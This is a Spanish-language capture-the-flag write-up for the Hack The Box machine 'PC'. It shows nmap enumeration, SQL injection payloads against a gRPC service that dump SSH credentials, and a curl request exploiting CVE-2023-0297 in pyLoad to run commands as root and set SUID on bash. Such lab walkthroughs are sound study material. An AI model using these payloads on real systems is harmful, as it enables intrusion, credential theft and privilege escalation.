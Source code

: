 ```yaml
---
layout: single
title: "Writeup PC"
categories: writeups
header:
    image: /assets/images/writeups/pc/cabecera.webp
---
```


Hola a todos soy Puchy y este será mi primer writeup espero que de muchos sobre un ejercicio CTF, en este caso de la máquina *PC* de [Hack the Box](https://app.hackthebox.com/home), para este tipo de problemas intento seguir siempre una misma metodología que se irá viendo a lo largo de este ejercicio en la separación de los apartados. Espero que al que este leyendo esto le sea de utilidad, le guste y aprenda algo.

# 1. Enumeración

Lo primero por lo que empezamos tras probar que tenemos conectividad con el servidor es hacer un reconocimiento de puertos a la máquina víctima para ello hago dos barridos, un escaneo rápido que me muestre todos los puertos abiertos y uno más exhaustivo para averiguar software o versiones de esos puertos.

**Escaneo rápido:**
*sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.10.11.214 -oN allPorts.nmap*
```ruby
# Nmap 7.94 scan initiated Wed Sep  6 12:07:55 2023 as: nmap -p- -sS --min-rate 5000 -vvv -n -Pn -oN allPorts.nmap 10.10.11.214
Nmap scan report for 10.10.11.214
Host is up, received user-set (0.062s latency).
Scanned at 2023-09-06 12:07:55 CEST for 26s
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 63
50051/tcp open  unknown syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Sep  6 12:08:21 2023 -- 1 IP address (1 host up) scanned in 26.61 seconds
```

**Escaneo de versiones:**
*nmap -p22,50051 -sCV 10.10.11.214 -oN versionPorts.nmap*
```ruby
# Nmap 7.94 scan initiated Wed Sep  6 12:09:40 2023 as: nmap -p22,50051 -Pn -sCV -oN versionPorts.nmap 10.10.11.214
Nmap scan report for 10.10.11.214
Host is up (0.048s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91:bf:44:ed:ea:1e:32:24:30:1f:53:2c:ea:71:e5:ef (RSA)
|   256 84:86:a6:e2:04:ab:df:f7:1d:45:6c:cf:39:58:09:de (ECDSA)
|_  256 1a:a8:95:72:51:5e:8e:3c:f1:80:f5:42:fd:0a:28:1c (ED25519)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port50051-TCP:V=7.94%I=7%D=9/6%Time=64F84FF7%P=x86_64-pc-linux-gnu%r(NU
SF:LL,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x06
SF:\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GenericL
SF:ines,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(GetReq
SF:uest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(HTTPOp
SF:tions,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\
SF:x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RTSPR
SF:equest,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0
SF:\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(RPCC
SF:heck,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\xff\xff\0\x
SF:06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0")%r(DNSVer
SF:sionBindReqTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\?\x
SF:ff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0\0"
SF:)%r(DNSStatusRequestTCP,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\
SF:x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0
SF:\0\?\0\0")%r(Help,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05\0\
SF:?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\?\0
SF:\0")%r(SSLSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\xff\0\x05
SF:\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0\0\0\0\0\
SF:?\0\0")%r(TerminalServerCookie,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff
SF:\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\
SF:0\0\0\0\0\?\0\0")%r(TLSSessionReq,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\
SF:xff\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08
SF:\0\0\0\0\0\0\?\0\0")%r(Kerberos,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(SMBProgNeg,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xf
SF:f\xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0
SF:\0\0\0\0\0\?\0\0")%r(X11Probe,2E,"\0\0\x18\x04\0\0\0\0\0\0\x04\0\?\xff\
SF:xff\0\x05\0\?\xff\xff\0\x06\0\0\x20\0\xfe\x03\0\0\0\x01\0\0\x04\x08\0\0
SF:\0\0\0\0\?\0\0");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  6 12:10:07 2023 -- 1 IP address (1 host up) scanned in 27.66 seconds
```
Esta vez estamos un caso un tanto especial ya que los puertos abiertos son el típico de *ssh* y uno muy extraño como es el 50051, que tras una larga búsquedad en Internet podemos averiguar que es el puerto por defecto de [gRPC](https://grpc.io/), el cual es un protocolo que permite la comunicación eficiente entre aplicaciones.

# 2. Reconocimiento de vulnerabilidades

Usando la herramienta [grpcui](https://github.com/fullstorydev/grpcui) con el comando `./grpcui --plaintext 10.10.11.214:50051` esta actúa como proxy y te permite hacer peticiones de manera gráfica al servidor.

![image-center](/assets/images/writeups/pc/grpcui.png){: .align-center}

Básicamente en la aplicación permite crear usuarios, loguearse y pedir información qué solo responde con *Will update soon*; si se prueba con *admin:admin* permite loguearse. Los token que da tienen el formato *b'token_de_la_cabecera'* por lo que a la hora de añadirlo en *getInfo* de cabecera hay que hacerlo sin la *b* y sin las comillas. Tras probar varias vulnerabilidades comprobé que el campo *id* en la función `getInfo` parecía ser vulnerable a una SQL injection, ya que al añafir al final `' OR 1=1 -- -` no daba ningún tipo de error.

# 3. Explotando vulnerabilidades

Tras probar unas cuantas inyecciones distitas para hallar que tipo de base de datos del que se trataba llegué a la conclusión de que era una *SQLite* gracias a esta inyección:

```sql
<id>' UNION SELECT 1 FROM sqlite_master--
```

Una vez que sabemos que existe esta tabla podemos obtener el nombre de las tablas que hay con la inyección `<id>' UNION SELECT tbl_name FROM sqlite_master--`, de la cual obtenemos que existe la tabla `accounts`. Para obtener los campos de esta tabla podemos usar la siguiente inyección `<id>' UNION SELECT sql FROM sqlite_master WHERE type='table' AND name='accounts'--` lo que nos da como resuldato lo siguiente:

```json
{
  "message": "CREATE TABLE \"accounts\" (\n\tusername TEXT UNIQUE,\n\tpassword TEXT\n)"
}
```

Gracias a esto sabemos que la tabla tiene dos campos el *username* y *password*. Para saber el número de usuarios que hay en el sistema podemos hacer la consulta con `count(*)` y podemos ver que hay dos usuarios registrados. Añadiendo en la consulta el parámetro *OFFSET* podemos ir uno a uno viendo el nombre y contraseña de cada usuario, la inyección sería la siguiente:

```sql
<id>' UNION SELECT username FROM accounts LIMIT 1 OFFSET 1 --
```

Con esto obtenemos que existe usuario se llama *sau* y que su contraseña es *HereIsYourPassWord1431*, por lo que procedí a probar estos credenciales para el servicio *ssh* y así se obtenemos una conexión con la máquina y la flag de usuario.

# 4. Escalada de privilegios

Para escalar privilegios suelo empezar por mirar versiones, comandos de posible ejecución sudo o bits SUID, pero nada de eso estaba disponible. Pero al revisar los puertos internos que estan en esucha con el comando `netstat -tulpn` vemos que hay un servicio no listado eschuchando en el puerto 8000.

```ruby
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:9666            0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::50051                :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```


Por el número puerto podríamos intuir que es un servicio web para hacer esto podemos realizar por forwarding con ssh para poderla ver correctamente desde mi navegador, esto lo haremos con este comando `ssh -L 8000:localhost:8000 sau@10.10.11.214` en este se indica que quiero que a través del puerto 8000 de mi equipo quiero conectarme a través de esa conexión ssh al puerto 8000 del otro equipo, y encuentro esta página.

![image-center](/assets/images/writeups/pc/pyload.png){: .align-center}

Con una búsqueda rápida se ve que seguramente sea vulnerable al [CVE-2023-0297](https://nvd.nist.gov/vuln/detail/CVE-2023-0297) con el que con este [exploit](https://www.exploit-db.com/exploits/51532) unicamente haciendo una petición HTTP tenemos ejecución remota de comandos como root. Aquí muestro una prueba con el comando curl de como se crearía el archivo *prueba* en `/tmp`.

```bash
curl -i -s -k -X $'POST' --data-binary $'jk=pyimport%20os;os.system(\"touch%20/tmp/prueba\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' $'http://localhost:8000/flash/addcrypted2'
```
Como no me daba respuesta la reverse shell, lo hice de una manera más simple dandole permisos SUID a la bash.

![image-center](/assets/images/writeups/pc/suid-bash.png){: .align-center}

Y con esto ya podemos leer la flag del directorio `/root` y la máquina estaría resuelta!!!

Como vemos se trata de una máquina muy interesante y un poco distinta al tratarse de un protocolo tan poco conocido que al principio puede desconcertar un poco. Sin más un saludo, gracias por leerme y a seguir hackeando.

